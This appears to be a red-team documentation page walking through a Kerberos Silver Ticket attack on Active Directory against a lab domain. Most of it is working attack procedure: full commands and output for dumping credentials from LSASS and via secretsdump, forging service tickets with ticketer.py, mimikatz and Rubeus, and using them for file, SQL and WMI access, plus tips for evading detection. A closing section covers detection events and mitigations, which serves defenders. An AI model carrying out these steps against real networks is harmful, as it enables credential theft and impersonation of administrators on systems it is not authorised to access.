

## What Is a Silver Ticket?

A Silver Ticket attack lets you forge a [Service Ticket](/docs/kerberos/tickets/) from scratch using only the target service account's NTLM hash (or AES key). Once forged, you can authenticate to that specific service as any user you choose — including Administrator — without ever contacting the KDC.

The trade-off compared to a [Golden Ticket](/docs/kerberos/ticket-attacks/golden-ticket/) is scope. A Silver Ticket is valid for **one service on one machine**. A Golden Ticket can get you into anything. But because a Silver Ticket never involves the KDC at all — not during forging, not during use — it leaves far fewer logs and is significantly harder to detect.

## How Does a Silver Ticket Attack Work?

In normal Kerberos, the KDC issues a Service Ticket encrypted with the service account's long-term key (the key derived from the account's password — called "long-term" because it stays the same until the password changes, unlike session keys which are temporary and unique to each authentication) and hands it to the client. The service decrypts it with its own key, reads the PAC (Privilege Attribute Certificate — the blob inside the ticket listing the user's groups and permissions), and decides whether to grant access.

The KDC never told the service to trust this ticket. The service trusted it because it could decrypt it. If the attacker already has the service account's key, they can encrypt anything they want and the service will accept it as a legitimate ticket.

The critical detail: by default, most services do **not** call back to the KDC to validate the PAC. They trust whatever is in the ticket as long as it decrypts correctly. This is what makes Silver Tickets work.



No TGS-REQ, no TGS-REP, no KDC involvement. The KDC never sees this authentication happen.

## What Does a Silver Ticket Attack Require?

- **Service account NTLM hash or AES key** — the key belonging to the account running the target service. Built-in Windows services like CIFS, HOST, and LDAP run under the machine's computer account — a special AD account that represents the machine itself rather than a user. Every Windows machine joined to the domain has one, its name ends with a `$` (like `FILESERVER$`), and it has its own NTLM hash just like a user account does. Services like MSSQL or IIS configured to run under a specific user account use that user's hash instead.
- **Domain SID** — the Security Identifier (SID) for the domain, in the format `S-1-5-21-<three numbers>`. This is embedded in the forged ticket to make it look like it came from the right domain. SID is a unique identifier Windows uses to represent domains and accounts — every domain has one that never changes.
- **Target [SPN](/docs/kerberos/kerberoast/)** — the Service Principal Name identifying the specific service, in the format `service/hostname.domain`. For example, `cifs/fileserver.radiant.local` targets the file sharing service on that host.
- **Username to impersonate** — you choose this freely. It does not have to exist in the domain. Most attackers use `Administrator`.

### Commonly Targeted Services

| SPN Prefix | Service | What You Get |
|---|---|---|
| `cifs` | File shares (SMB) | Read/write access to shares |
| `host` | Remote management, scheduled tasks | WMI, PowerShell remoting, task creation |
| `mssql` | SQL Server | Database access as sysadmin |
| `http` | IIS, web services | Web application access |
| `ldap` | Active Directory LDAP | Read/modify directory objects |
| `rpcss` | RPC services | DCOM-based remote execution |

## Preparation

Before forging, collect the two pieces of information the ticket needs: the service account hash and the domain SID.


  
**Getting the service account hash**

If you have domain credentials, `secretsdump.py` can extract the hash remotely from the machine running the service:

```bash
secretsdump.py radiant.local/jdoe:'Password123!'@fileserver.radiant.local
```

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x3b4c...
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
RADIANT.LOCAL\fileserver$:1103:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
```

Each line in the output follows the format `username:RID:LMhash:NThash:::`. The NT hash is the last value before the `:::`. In the computer account line above, `8846f7eaee8fb117ad06bdd830b7586c` is the NT hash you need. The line ending in `$` (like `FILESERVER$`) is the computer account — that is the hash to use for services running as SYSTEM (the built-in Windows local system account that most machine services run under, including CIFS, HOST, LDAP, and RPCSS).

**Getting the domain SID**

```bash
getPac.py -targetUser Administrator radiant.local/jdoe:'Password123!'
```

`getPac.py` fetches the PAC (Privilege Attribute Certificate) for a domain user from the KDC. The domain SID is always embedded inside the PAC in a field called `LogonDomainId` — every PAC carries it. This gives you the domain SID without needing any special access on the DC.

```
[*] Getting PAC for Administrator
...
LogonDomainId: S-1-5-21-3623811015-3361044348-30300820
```

The `LogonDomainId` is your domain SID. Alternatively:

```bash
lookupsid.py radiant.local/jdoe:'Password123!'@dc01.radiant.local 0
```

The `0` at the end is the starting RID (Relative Identifier — the numeric suffix at the end of any SID that identifies a specific account). RID 0 resolves to the domain itself, so lookupsid immediately returns the domain SID without enumerating any accounts.

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Brute forcing SIDs at dc01.radiant.local
[*] StringBinding ncacn_np:dc01.radiant.local[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-3623811015-3361044348-30300820
```
  
  
**Getting the service account hash**

From an elevated session, mimikatz extracts hashes from [LSASS](/docs/redteam/credential-dumping/) memory. `privilege::debug` requests the SeDebugPrivilege needed to read LSASS:

```powershell
privilege::debug
sekurlsa::logonpasswords
```

```
Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : FILESERVER$
Domain            : RADIANT
Logon Server      : (null)

         * Username : FILESERVER$
         * Domain   : radiant.local
         * NTLM     : 8846f7eaee8fb117ad06bdd830b7586c
         * SHA1     : ...
```

To extract the AES key instead (more stealthy, bypasses RC4 detection), use `sekurlsa::ekeys`. This command dumps the Kerberos long-term encryption keys — the AES-128 and AES-256 keys derived from the account password — which `sekurlsa::logonpasswords` does not always expose:

```powershell
sekurlsa::ekeys
```

```
         * AES256 : a96f44c8c92a88a7af4c10de92310a3...
         * AES128 : 3b8e1c89f60a2c5c...
         * RC4    : 8846f7eaee8fb117ad06bdd830b7586c
```

**Getting the domain SID**

```powershell
whoami /user
```

```
USER INFORMATION
----------------

User Name    SID
============ ==============================================
radiant\jdoe    S-1-5-21-3623811015-3361044348-30300820-1104
```

The domain SID is everything except the last number (the RID — the part after the last hyphen that identifies the specific account). Strip the `-1104` and you have `S-1-5-21-3623811015-3361044348-30300820`.

Alternatively, from PowerShell — note this requires the Active Directory module (part of RSAT, typically only available on domain controllers and admin workstations, not standard machines). If it throws an error, fall back to `whoami /user`:

```powershell
(Get-ADDomain).DomainSID.Value
```

```
S-1-5-21-3623811015-3361044348-30300820
```
  


## Forging the Ticket

With the hash and SID in hand, forge the ticket directly — no network contact needed.


  
`ticketer.py` creates and saves the forged ticket as a `.ccache` file. The filename becomes the output ticket name.

```bash
ticketer.py \
  -nthash 8846f7eaee8fb117ad06bdd830b7586c \
  -domain-sid S-1-5-21-3623811015-3361044348-30300820 \
  -domain radiant.local \
  -spn cifs/fileserver.radiant.local \
  Administrator
```

``` {linenos=table}
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for radiant.local/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[* ] Saving ticket in Administrator.ccache
```

To use AES256 instead of RC4 (recommended — AES is the modern default and RC4 tickets can trigger detections):

```bash
ticketer.py \
  -aesKey a96f44c8c92a88a7af4c10de92310a3... \
  -domain-sid S-1-5-21-3623811015-3361044348-30300820 \
  -domain radiant.local \
  -spn cifs/fileserver.radiant.local \
  Administrator
```
  
  
**mimikatz** uses the `kerberos::golden` command for both Golden and Silver tickets. The `/service` and `/target` flags are what make it a Silver Ticket.

```powershell
kerberos::golden `
  /user:Administrator `
  /domain:radiant.local `
  /sid:S-1-5-21-3623811015-3361044348-30300820 `
  /target:fileserver.radiant.local `
  /service:cifs `
  /rc4:8846f7eaee8fb117ad06bdd830b7586c `
  /ptt
```

``` {linenos=table}
User      : Administrator
Domain    : radiant.local (RADIANT)
SID       : S-1-5-21-3623811015-3361044348-30300820
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 8846f7eaee8fb117ad06bdd830b7586c - rc4_hmac_nt
Service   : cifs
Target    : fileserver.radiant.local
Lifetime  : 3/11/2026 9:00:00 ; 3/18/2026 9:00:00 ; 3/18/2026 9:00:00
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ radiant.local' successfully submitted for current session
```

`/ptt` ([Pass The Ticket](/docs/kerberos/ticket-attacks/pass-the-ticket/)) injects it directly into the current session so you don't need a separate injection step.

**Rubeus** with the `silver` action:

```powershell
.\Rubeus.exe silver `
  /service:cifs/fileserver.radiant.local `
  /rc4:8846f7eaee8fb117ad06bdd830b7586c `
  /ldapdomain:radiant.local `
  /sid:S-1-5-21-3623811015-3361044348-30300820 `
  /user:Administrator `
  /ptt
```

``` {linenos=table}
[*] Action: Build Silver Ticket
[*] Building PAC

[*] Domain         : RADIANT.LOCAL (RADIANT)
[*] SID            : S-1-5-21-3623811015-3361044348-30300820
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ServiceKey     : 8846F7EAEE8FB117AD06BDD830B7586C
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : (null)
[*] KDCKeyType     : (null)
[*] Service        : cifs
[*] Target         : fileserver.radiant.local

[*] Forging Kerberos ticket...
[+] Ticket successfully forged!
[*] Ticket added to store for user 'Administrator'
```
  


## Using the Ticket


  
Point `KRB5CCNAME` at the forged ticket file and use Impacket tools as normal. The `-k -no-pass` flags tell Impacket to use the Kerberos ticket from `KRB5CCNAME` instead of a password.

```bash
export KRB5CCNAME=/tmp/Administrator.ccache
```

Access a file share:

```bash
smbclient.py radiant.local/Administrator@fileserver.radiant.local -k -no-pass
```

```
Impacket v0.12.0 - Copyright Fortra, LLC

Type help for list of commands
# shares
ADMIN$
C$
IPC$
Finance
```

If the ticket was forged for `cifs`, you can browse and download from shares. For other services, use the matching Impacket tool:

```bash
# MSSQL (spn: MSSQLSvc/sqlserver.radiant.local)
# -windows-auth tells mssqlclient to use Windows/Kerberos authentication
# instead of SQL Server username+password authentication
mssqlclient.py radiant.local/Administrator@sqlserver.radiant.local -k -no-pass -windows-auth

# WMI / remote execution (spn: host/target.radiant.local)
wmiexec.py radiant.local/Administrator@target.radiant.local -k -no-pass
```
  
  
If you used `/ptt` during forging, the ticket is already in your session — go straight to using it.

Access a share:

```powershell
dir \\fileserver.radiant.local\Finance
```

```
 Volume in drive \\fileserver.radiant.local\Finance has no label.

 Directory of \\fileserver.radiant.local\Finance

11/03/2026  09:15    <DIR>          .
11/03/2026  09:15    <DIR>          ..
11/03/2026  08:00            12,288 Q1_budget.xlsx
11/03/2026  08:00             4,096 payroll.xlsx
```

If you saved the ticket to disk instead of using `/ptt`, inject it first:

```powershell
.\Rubeus.exe ptt /ticket:C:\Temp\silver.kirbi
```

Then access resources normally. Any SMB, WMI, MSSQL, or HTTP connection to the target service will use the forged ticket automatically.
  


## Verification


  
```bash
klist
```

```
Ticket cache: FILE:/tmp/Administrator.ccache
Default principal: Administrator@RADIANT.LOCAL

Valid starting       Expires              Service principal
03/11/2026 09:00:00  03/18/2026 09:00:00  cifs/fileserver.radiant.local@RADIANT.LOCAL
```

Notice the service principal is `cifs/fileserver.radiant.local` — this is a Service Ticket, not a TGT. A Golden Ticket would show `krbtgt/RADIANT.LOCAL`.
  
  
```powershell
klist
```

``` {linenos=table}
Current LogonId is 0:0x7a3b2

Cached Tickets: (1)

#0>     Client: Administrator @ RADIANT.LOCAL
        Server: cifs/fileserver.radiant.local @ RADIANT.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 3/11/2026 9:00:00 (local)
        End Time:   3/18/2026 9:00:00 (local)
        Renew Time: 3/18/2026 9:00:00 (local)
```

The `Server` line shows `cifs/fileserver.radiant.local` — this is a Service Ticket for one specific service. The `Client` line shows `Administrator` — the identity we forged the ticket for.
  


## Operational Notes

**Scope is fixed at forge time.** A Silver Ticket for `cifs/fileserver.radiant.local` works on that host for that service only. To access a different service or a different machine, forge a separate ticket.

**No KDC contact means no KDC expiry enforcement.** You set the lifetime when forging. Impacket defaults to 365 days. mimikatz defaults to 10 years. This is a useful operational property but also a detection indicator — legitimate tickets expire in 10 hours.

**PAC validation can block this.** Some configurations enable PAC validation, where the service calls the KDC via NETLOGON to verify the PAC signature before granting access. If this is enabled on the target service, forged tickets will be rejected. PAC validation is not enabled by default on most services, but it is becoming more common as a hardening measure.

**Computer account passwords rotate every 30 days by default.** If you are forging tickets using a computer account hash (`FILESERVER$`), the hash will become invalid when the machine rotates its password. Re-extract the hash after rotation.

**RC4 vs AES.** Forging with RC4 (`-nthash` / `/rc4`) is easier because you can derive the RC4 key directly from the NTLM hash with no extra steps. AES tickets require the actual AES key (from `sekurlsa::ekeys` or similar). In environments that have disabled RC4 or where RC4 Kerberos tickets trigger alerts, use AES.

## How Do You Detect and Defend Against Silver Tickets?

### What Logs Does a Silver Ticket Generate?

- **Event ID 4624** at the target service host — a Type 3 (network logon) event fires when authentication succeeds. Look for `Administrator` or other privileged accounts logging on to a service host where no interactive session exists.
- **Application logs** — SQL Server audit logs, IIS access logs, and file server access logs all record the authenticated username. A Silver Ticket for MSSQL will appear in the SQL audit trail as the impersonated user.
- **[Sysmon](/docs/blueteam/lolbins-hunting/) Event ID 10** on the machine where the hash was extracted — LSASS process access is logged during the credential dump phase, before the ticket is ever forged.

### What Logs Does a Silver Ticket Not Generate?

- **NO Event ID 4768** — no TGT was requested. The KDC has no record this user authenticated at all.
- **NO Event ID 4769** — no service ticket was requested from the KDC. The ticket was constructed locally and never passed through the DC.
- **The DC is completely silent.** From the domain controller's perspective, this authentication never happened. There are no Kerberos exchange logs, no pre-authentication events, nothing. A Silver Ticket leaves a logon event only at the service host — the DC sees nothing.
- **The forging step generates no network traffic.** Running `ticketer.py` or `kerberos::golden` is entirely offline. No packets reach the DC.

This is what makes Silver Tickets more operationally stealthy than Golden Tickets: Golden Tickets still contact the KDC when requesting service tickets, generating 4769 events. Silver Tickets don't touch the KDC at all.

### How Do You Mitigate Silver Tickets?

- **Enable PAC validation on sensitive services** — this forces the service to call the KDC via NETLOGON to verify the PAC signature on every incoming ticket. A forged PAC (with no valid KDC signature) will be rejected. This is the most direct control against Silver Tickets specifically.
- **Enforce AES-only Kerberos** — disable RC4 and DES via Group Policy (`Network security: Configure encryption types allowed for Kerberos`). RC4-encrypted Silver Tickets become immediately anomalous. Forging AES still works but requires the AES key rather than just the NTLM hash, raising the bar.
- **Credential Guard** (Windows 10 / Server 2016+) — protects LSASS memory from being read, blocking the hash extraction step entirely.
- **Group Managed Service Accounts (gMSA)** — service accounts whose passwords are automatically rotated by AD and are never readable by standard users. Hash extraction from a gMSA account is not feasible, which eliminates Silver Ticket forging against those services.
- **Rotate service account passwords regularly** — if gMSA is not possible, a shorter rotation cycle reduces how long a stolen hash remains valid. Computer accounts auto-rotate every 30 days by default; user-based service accounts typically don't rotate at all unless enforced.

### Detection Tools

- **Microsoft Defender for Identity (MDI)** — has a dedicated Forged PAC / Silver Ticket alert. It detects service ticket use where no corresponding TGS exchange exists at the DC, specifically flagging the KDC silence.
- **Microsoft Sentinel** — write a correlation rule: Event ID 4624 (Type 3, Kerberos) on sensitive hosts where no matching Event ID 4769 at the DC exists for the same account within the same time window.
- **Splunk** — same correlation across DC Security logs and host Security logs. The absence join is the signal.
- **Sysmon** — Event ID 10 on LSASS process access. Catching the dump phase before the ticket is forged is more reliable than detecting the ticket in use, since the ticket itself looks like a normal service authentication at the host level.
- **Zeek / network monitoring** — Silver Tickets produce no AS-REQ or TGS-REQ Kerberos traffic toward the DC. An account authenticating to a service with no Kerberos exchanges visible on the wire is a strong behavioral anomaly in a monitored environment.

## References

### Original Research
- Benjamin Delpy (gentilkiwi) — Silver Ticket implementation in mimikatz; the concept of forging Service Tickets using a service account's NTLM hash via `kerberos::golden /service /target`

### Tools
- [Impacket](https://github.com/fortra/impacket) — Python library and scripts for network protocols, including `ticketer.py` (Silver Ticket forging), `secretsdump.py` (hash extraction), and `lookupsid.py` / `getPac.py` (domain SID enumeration)
- [Rubeus](https://github.com/GhostPack/Rubeus) — C# Kerberos toolkit (`silver` action)
- [mimikatz](https://github.com/gentilkiwi/mimikatz) — Windows credential tool (`kerberos::golden` with `/service` and `/target` for Silver Tickets, `sekurlsa::ekeys` for AES key extraction)

### Specifications
- [RFC 4120 — The Kerberos Network Authentication Service (V5)](https://www.rfc-editor.org/rfc/rfc4120)
- [MS-PAC — Privilege Attribute Certificate Data Structure](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/)
